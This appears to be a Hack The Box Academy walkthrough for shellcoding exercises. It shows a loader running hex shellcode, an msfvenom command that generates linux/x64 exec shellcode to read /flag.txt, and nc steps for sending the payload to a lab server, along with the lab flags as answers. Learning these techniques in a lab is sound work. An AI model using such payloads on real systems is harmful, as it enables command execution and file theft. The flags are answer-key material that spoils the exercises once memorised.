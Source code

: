 Code: shell

```shell
python3 loader '4831db536a0a48b86d336d307279217d5048b833645f316e37305f5048b84854427b6c303464504889e64831c0b0014831ff40b7014831d2b2190f054831c0043c4030ff0f05'
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ python3 loader '4831db536a0a48b86d336d307279217d5048b833645f316e37305f5048b84854427b6c303464504889e64831c0b0014831ff40b7014831d2b2190f054831c0043c4030ff0f05'

HTB{l04d3d_1n70_m3m0ry!}
```

Answer: `HTB{l04d3d_1n70_m3m0ry!}`

# Shellcoding Tools

## Question 1

### "The above server simulates an exploitable server you can execute shellcodes on. Use one of the tools to generate a shellcode that prints the content of '/flag.txt', then connect to the server with "nc SERVER\_IP PORT" to send the shellcode."

Students first need to use `msfvenom` to generate a hexadecimal shellcode payload that will print the flag file "flag.txt":

Code: shell

```shell
msfvenom -p 'linux/x64/exec' CMD='cat /flag.txt' -a 'x64' --platform 'linux' -f 'hex'
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ msfvenom -p 'linux/x64/exec' CMD='cat /flag.txt' -a 'x64' --platform 'linux' -f 'hex'

No encoder specified, outputting raw payload
Payload size: 50 bytes
Final size of hex file: 100 bytes
48b82f62696e2f7368009950545f5266682d63545e52e80e000000636174202f666c61672e747874005657545e6a3b580f05
```

Subsequently, students need to connect to the `STMIP` with the `STMPO` using `nc`, paste in the hex shellcode payload, and then run it to attain the flag:

Code: shell

```shell
nc STMIP STMPO
48b82f62696e2f7368009950545f5266682d63545e52e80e000000636174202f666c61672e747874005657545e6a3b580f05
```
